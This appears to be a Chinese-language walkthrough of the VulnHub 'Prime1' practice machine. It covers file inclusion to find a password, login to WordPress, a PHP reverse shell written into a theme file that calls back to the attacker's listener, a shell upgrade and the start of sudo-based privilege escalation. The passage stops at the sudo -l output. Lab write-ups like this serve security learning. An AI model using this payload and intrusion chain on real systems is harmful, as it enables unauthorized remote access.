 提示使用 **secrettier360** 参数在其他 php 页面尝试，那就应该是 image.php 了。

<img width="1919" height="1018" alt="Image" src="https://github.com/user-attachments/assets/c6dbd617-9b10-4573-938a-eb06938c347c" />
成功了，但是没别的提示了，试一下文件包含。成功了，并且有提示寻找 **password.txt** 

<img width="1919" height="1035" alt="Image" src="https://github.com/user-attachments/assets/96044830-b707-4d4f-9155-57391f0cfca8" />
**follow_the_ippsec** 有输出，可能就是密码

<img width="1913" height="684" alt="Image" src="https://github.com/user-attachments/assets/e2b3745f-e45f-4aec-8d51-89fd10d316f9" />
试一下 ssh 的登录，尝试不通，想到之前漏洞扫描到有 wordpress ，试一下登录，成功使用 **victor:follow_the_ippsec** 这一组凭据登录 wp 后台

尝试上传插件 payload ，但是提示没有写权限，提示 **父目录是否可以被写入** ，那再找主题，也是同样的问题。

<img width="1919" height="820" alt="Image" src="https://github.com/user-attachments/assets/35409f7b-689e-4dae-89e2-c330ebda2917" />

再翻翻翻，在主题编辑器中发现了 **secret.php**，那就确定了利用路径

<img width="1919" height="1034" alt="Image" src="https://github.com/user-attachments/assets/09c18020-12b9-487d-9a04-6be0fe7c1e53" />

直接写入反向shell
```
<?php
$ip = '192.168.218.148';  
$port = 4444;             
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', 
    array(0 => $sock, 1 => $sock, 2 => $sock), 
    $pipes);
?>
```
开源cms，主题路径也能找到 **/wordpress/wp-content/themes/twentynineteen/secret.php**
在kali上开启4444端口监听，然后访问。

```
┌──(kali㉿kali)-[~/…/stageOne/writeup/vulnhub/Prime1]
└─$ sudo nc -lvnp 4444
[sudo] kali 的密码：
listening on [any] 4444 ...
connect to [192.168.218.148] from (UNKNOWN) [192.168.218.193] 54782
/bin/sh: 0: can't access tty; job control turned off
$ bash
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## 提权
成功拿到shell，那就开始提权了
先升级shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export SHELL=bash
export TERM=xterm-256color 
ctrl+z
stty raw -echo;fg
reset
```
```
www-data@ubuntu:/home/saket$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /home/saket/enc
```
使用 **sudo -l** 发现可以执行的sudo操作